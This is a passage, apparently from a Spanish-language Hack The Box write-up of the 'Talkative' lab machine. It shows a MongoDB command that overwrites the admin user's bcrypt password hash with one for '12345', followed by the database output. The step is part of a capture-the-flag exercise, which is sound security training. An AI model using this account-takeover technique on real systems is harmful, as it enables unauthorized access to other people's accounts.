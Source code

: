 Corresponde al servicio que corre por el puerto 3000

<img src="/writeups/assets/img/Talkative-htb/6.png" alt="">

Puedo cambiarle la contraseña para conectarme como este usuario a la web. El hash corresponde a ```12345```

```null
rs0:PRIMARY> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

<img src="/writeups/assets/img/Talkative-htb/7.png" alt="">

